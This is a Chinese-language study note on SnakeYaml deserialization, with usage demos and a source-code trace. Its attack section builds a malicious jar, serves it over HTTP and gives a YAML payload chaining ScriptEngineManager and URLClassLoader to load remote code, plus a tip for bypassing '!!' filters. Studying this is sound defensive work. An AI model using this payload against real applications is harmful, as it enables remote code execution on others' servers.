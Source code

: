 # 0x01 What Is SnakeYaml

SnakeYaml是一个完整的YAML1.1规范Processor，用于解析YAML，序列化以及反序列化，支持UTF-8/UTF-16，支持Java对象的序列化/反序列化，支持所有YAML定义的类型。

# 0x02 Best Practice

```xml
<dependency>
    <groupId>org.yaml</groupId>
    <artifactId>snakeyaml</artifactId>
    <version>1.27</version>
</dependency>
```

两个方法：

- Yaml.load()：入参是一个字符串或者一个文件，返回一个Java对象
- Yaml.dump()：将一个对象转化为yaml文件形式

## dump

```java
import com.demo.User;
import org.yaml.snakeyaml.Yaml;

public class SnakeYamlDemo {
    public static void main(String[] args) {
        User user = new User();
        user.setName("Taco");
        Yaml yaml = new Yaml();
        System.out.println(yaml.dump(user));
    }
}
```

> !!com.demo.User {name: Taco}
>
> **!!**用于强制类型转换，与fastjson中@type字段类似

## load

```java
package com.demo;

public class User {
    private String name;

    public User(){
        System.out.println("NonArg Constructor");
    }

    public String getName() {
        System.out.println("getName");
        return name;
    }

    public void setName(String name) {
        System.out.println("setName");
        this.name = name;
    }

    @Override
    public String toString() {
        return "My name is " + name;
    }
}
```

```java
import com.demo.User;
import org.yaml.snakeyaml.Yaml;

public class SnakeYamlDemo {
    public static void main(String[] args) {
        Yaml yaml = new Yaml();
        String s = "!!com.demo.User {name: Taco}";
        User user = yaml.load(s);
        System.out.println(user);
    }
}
```

> NonArg Constructor
> setName
> My name is Taco

调用了无参构造器和`setter`

> 注意：若类属性是public修饰，不会调用对应的setter方法，而是通过反射来set

# 0x03 Way To Attack

yaml反序列化时可以通过`!!`+全类名指定反序列化的类，反序列化过程中会实例化该类，可以通过构造`ScriptEngineManager`payload并利用SPI机制通过`URLClassLoader`或者其他payload如JNDI方式远程加载实例化恶意类从而实现任意代码执行。

Github上面的EXP：https://github.com/artsploit/yaml-payload

> javac src/artsploit/AwesomeScriptEngineFactory.java
>
> jar -cvf yaml-payload.jar -C src/ .

将生成yaml-payload.jar包放在web服务上

`python -m http.server 9999`

> !!javax.script.ScriptEngineManager [
>  !!java.net.URLClassLoader [[
>   !!java.net.URL ["http://127.0.0.1:9999/yaml-payload.jar"]
>  ]]
> ]

![image-20230123142111909](../.gitbook/assets/image-20230123142111909.png)

# 0x04 Deep Source

## ScriptEngineManager

![image-20230123143300458](../.gitbook/assets/image-20230123143300458.png)

![image-20230123143314631](../.gitbook/assets/image-20230123143314631.png)

`ScriptEngineManager`的无参构造器调用了init()，进行初始化设置后调用`initEngines()`，接着到`getServiceLoader`

![image-20230123144053760](../.gitbook/assets/image-20230123144053760.png)

到了熟悉的`ServiceLoader.load()`返回一个`ServiceLoader<>`，根据这个可以获取一个迭代器，接下来还是熟悉的迭代遍历。

![image-20230123144716480](../.gitbook/assets/image-20230123144716480.png)

`next() => nextService()`会加载接口实现类并实例化。

## Yaml#load()

```java
public <T> T load(String yaml) {
	return (T) loadFromReader(new StreamReader(yaml), Object.class);
}
```

payload存储于StreamReader的stream字段

![image-20230123145718466](../.gitbook/assets/image-20230123145718466.png)

回到`loadFromReader()`，创建了一个Composer对象，并封装到`constructor`中

```java
private Object loadFromReader(StreamReader sreader, Class<?> type) {
    Composer composer = new Composer(new ParserImpl(sreader), resolver, loadingConfig);
    constructor.setComposer(composer);
    return constructor.getSingleData(type);
}
```

跟进`getSingleData`

![image-20230123150505342](../.gitbook/assets/image-20230123150505342.png)

`getSingleNode()`将poc改造为如下：

> <org.yaml.snakeyaml.nodes.SequenceNode (tag=tag:yaml.org,2002:javax.script.ScriptEngineManager, value=[<org.yaml.snakeyaml.nodes.SequenceNode (tag=tag:yaml.org,2002:java.net.URLClassLoader, value=[<org.yaml.snakeyaml.nodes.SequenceNode (tag=tag:yaml.org,2002:seq, value=[<org.yaml.snakeyaml.nodes.SequenceNode (tag=tag:yaml.org,2002:java.net.URL, value=[<org.yaml.snakeyaml.nodes.ScalarNode (tag=tag:yaml.org,2002:str, value=http://127.0.0.1:9999/yaml-payload.jar)>])>])>])>])>

若过滤了`!!`，可利用此tag规则进行绕过

接着调用`constructDocument()`对上面poc进行处理

![image-20230123150825914](../.gitbook/assets/image-20230123150825914.png)

跟进`constructObject()` => `constructObjectNoCheck()`

![image-20230123151057596](../.gitbook/assets/image-20230123151057596.png)

node放入`recursiveObjects`，进入`constructor.construct(node)`

![image-20230123151206835](../.gitbook/assets/image-20230123151206835.png)

![image-20230123151433908](../.gitbook/assets/image-20230123151433908.png)

遍历节点，调用`constructObject()`又循环回去了

> constructObjectNoCheck()->
> BaseConstructor#construct()->
> Contructor#construct()->
> 迭代Contructor#constructObject()

上面的POC有5个node，所以循环5次。

先后进行了URL、URLClassLoader、ScriptEngineManager的实例化

注意这里实例化是有传参数(argumentList)的，把前一个类的实例化对象当作下个类构造器的参数。

最后进入ScriptEngineManager的无参构造器，连接上了上文的SPI机制。

![image-20230123153625236](../.gitbook/assets/image-20230123153625236.png)

# Article To Learn

[跳跳糖社区-SnakeYaml反序列化及不出网利用](https://mp.weixin.qq.com/s?__biz=MzkxNDMxMTQyMg==&mid=2247496898&idx=1&sn=9df9a236a3c437522bdf125cf92c6e24&chksm=c172e553f6056c4592696a15d5270e30386a229ca35d8eb1cf588498c95d78b28f2766975234&scene=27&key=7917b196593e1041903cc963f4d8e8dd309fc34822ec523c96ef6852b6eb00243ae09c3a475f21000c466a1481f5d9ef88661e5ccd3eae00b654271eecd790081cf9cb2b874e0566a9b1bf83ab3e3a9dffbce029a9983bd1e617a34873e1a5cf0d90ff63073904c1c64a7ab0832fd5396612ac69385a93896810c27b3466f6ca&ascene=0&uin=MzM0MTE3MTk2MQ%3D%3D&devicetype=Windows+10+x64&version=6308011a&lang=zh_CN&exportkey=n_ChQIAhIQk1l7Og6o32ldfRBgt0m%2F7xLgAQIE97dBBAEAAAAAAFyoNDyY7FgAAAAOpnltbLcz9gKNyK89dVj0STE6v0lILRu1tKDn0ZDKVMzBwrLXZCB%2BmUzHXSOZsIYr0w0A%2FcuvTqwms4Rt%2Fkjpf8zHxxTi8IwvjYn%2FDZ9Q33Hc5vfX2hilkR53helcExsLrLyslL%2FWBsef9XI%2F6wZMWmG6oy8JJGplsmLrW%2BxqvmnB4f5wILv176CzXoS3esuvsQ%2BhfcDKd%2FEfu5bUKYhs0ZoGh1vCyZD6VtP9NEg2tTCVHV3tJAqerIo%2BgJoEHIoL7rOFzs%2Fq0qic&acctmode=0&pass_ticket=Q7%2FiUlx9i6XS%2FNSi17wpXoqBYZHAHgY0basv8D4BZIN%2BCoAkTfFeOqqNDBcbXW05phWaLHgqOHGN8cecKlsdgw%3D%3D&wx_header=1&fontgear=2)

不出网和其他利用后面学习其他知识之后再来补充